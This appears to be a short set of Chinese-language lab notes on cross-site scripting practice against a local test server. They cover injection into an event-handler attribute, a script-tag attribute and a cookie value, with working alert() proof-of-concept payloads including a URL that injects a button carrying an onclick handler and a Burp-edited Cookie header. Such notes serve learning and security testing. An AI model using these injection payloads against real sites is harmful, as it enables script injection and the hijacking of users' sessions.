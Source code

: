 ### 输出存在于HTML节点on...属性中的部分代码属性

原链接：

```
http://127.0.0.1/xss/attr/onclick2?code=2-1
```

原链接好像就能完成xss，不太懂意思，难道是要将原来的alert给弄掉，换成可任意的xss？



### script标签的某些属性中

原链接：

```
http://127.0.0.1/xss/attr/script?name=OrdinaryVisitor
```

![image-20250223154219343](../../_media/image-20250223154219343.png)

构造payload：

```
http://127.0.0.1/xss/attr/script?name=<button onclick=javascript:alert(1)>XSS</button>
```



### Cookie 中的 XSS

看代码：

![image-20250223154547791](../../_media/image-20250223154547791.png)

接收cookie中的数据而且还在控制台中输出



直接BP抓包修改：

```
Cookie: xCname=`+alert(1)+`
```

![image-20250223155034853](../../_media/image-20250223155034853.png)